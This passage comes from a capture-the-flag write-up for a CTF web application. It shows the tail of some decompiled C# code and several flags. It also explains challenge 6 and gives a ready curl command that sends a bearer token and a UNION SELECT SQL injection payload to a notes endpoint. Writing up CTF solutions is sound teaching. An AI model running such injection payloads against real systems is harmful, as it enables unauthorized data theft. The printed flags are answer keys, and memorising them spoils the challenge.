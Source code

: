 ```c#
	}

	private void NotifyStateChanged()
	{
		Action? onStateChange = this.OnStateChange;
		if (onStateChange != null)
		{
			onStateChange.Invoke();
		}
	}
}

```

### Flag

`OMEGAPOINT{1da92dcfcbe4122b3e99cc25dc6d71d8}`

## [6] Dumping the Barrel

### Description

> As you explore the web application, you may find a way to access notes. However, even with admin privileges, accessing the note comments seems to not be possible.

### Solution

From the previous findings, we know that the login endpoint enables the extraction of the entire database. Extracting the all values in the notes table, one can find the flag hidden as a comment on a note. Additionally, the decompiled source code from the DLL file revealed a filter parameter on the notes endpoint, vulnerable to SQL injection due to the lack of using parameterized queries as well. An illustrative payload showcasing the retrieval of comments from the notes table, including the flag, is demonstrated below:

```sh
curl -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywidXNlcm5hbWUiOiJhZG1pbiIsImlzQWRtaW4iOjEsImlhdCI6MTcwMTE3MzQ4NiwiZXhwIjoxNzMyNzA5NDg2fQ.TFzllamMp0d7Rv9eIdRvvJHWr8-dk0h2iZSY1Z6nV5c' 'http://51.120.250.68/api/notes?token=OMEGAPOINT%7B7c0e12caf742bf36e604250fa8cc70fd%7D&filter=1=0%20UNION%20SELECT%201,2,comment%20FROM%20notes'
```

![sqli on the notes-endpoint containing the flag](https://hackmd.io/_uploads/r1eVAp9da.png)

### Flag

`OMEGAPOINT{d4fba280dd6162ca55bdcb26feb12f05}`

## [7] That's right, you can read!

### Description
